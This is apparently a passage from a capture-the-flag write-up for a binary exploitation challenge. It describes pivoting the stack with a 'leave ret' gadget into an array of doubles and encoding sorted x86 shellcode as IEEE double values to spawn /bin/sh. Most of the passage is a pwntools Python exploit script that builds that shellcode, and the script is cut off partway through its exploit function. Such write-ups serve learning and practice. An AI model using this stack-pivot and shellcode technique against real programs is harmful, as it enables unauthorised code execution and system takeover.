 What I've chosen is to set it as `leave ret`, and pivot the stack into our double array, then execute `retn` to execute our shellcode in the form of IEEE double. Also, the shellcode must be sorted, which can be implemented by manipulating the exponential part of IEEE double, while the digits are our shellcode with `jmp short`.

This takes me a lot of time, and we need to execute `/bin/sh` instead of `/bin/csh` as it suggested in the strings in the executable. Also, since canary is random, we cannot be sure about the position of canary after sorting, so my approach gives about `1/40` probability.

//todo, more detailed illustration later

```python
from pwn import *
import struct
g_local=False
context.log_level='debug'


LEAVE_RET = 0x08049166
DOUBLE_OFF = 0
def to_double(num):
	return struct.unpack('<d', p64(num))[0]

def make_ieee_double(exp, digit, sign = 1):
	assert sign == 1 or sign == 0
	assert digit >= 0 and digit < (1 << 52)
	rexp = exp + 1023
	assert rexp >= 0 or rexp < 2048
	return to_double((sign << 63) + (rexp << 52) + digit)

def shellcodes_4(asmcode):
	ret = asm(asmcode)
	assert len(ret) <= 4
	return u64(ret.ljust(4, "\x90") + '\xeb\x02\x00\x00')

def make_shellcode(shpath):
	assert len(shpath) % 4 == 0
	ret = []
	e = 1000
	#0x804A127
	for x in range(0, len(shpath), 4)[::-1]:
		ret.append(make_ieee_double(e, shellcodes_4("mov ax," + hex(u16(shpath[x+2:x+4])))))
		e -= 1
		ret.append(make_ieee_double(e, shellcodes_4("shl eax,16")))
		e -= 1
		ret.append(make_ieee_double(e, shellcodes_4("mov ax," + hex(u16(shpath[x:x+2])))))
		e -= 1
		ret.append(make_ieee_double(e, shellcodes_4("push eax")))
		e -= 1
	#0x804BFF0
	ret.append(make_ieee_double(e, shellcodes_4("push esp")))
	e -= 1
	ret.append(make_ieee_double(e, shellcodes_4("mov ax,0x804")))
	e -= 1
	ret.append(make_ieee_double(e, shellcodes_4("shl eax,16")))
	e -= 1
	ret.append(make_ieee_double(e, shellcodes_4("mov ax,0xBFF0")))
	e -= 1
	ret.append(make_ieee_double(e, shellcodes_4("mov eax,[eax]")))
	e -= 1
	ret.append(make_ieee_double(e, shellcodes_4("call eax")))
	return ret

def exploit():
	if g_local:
```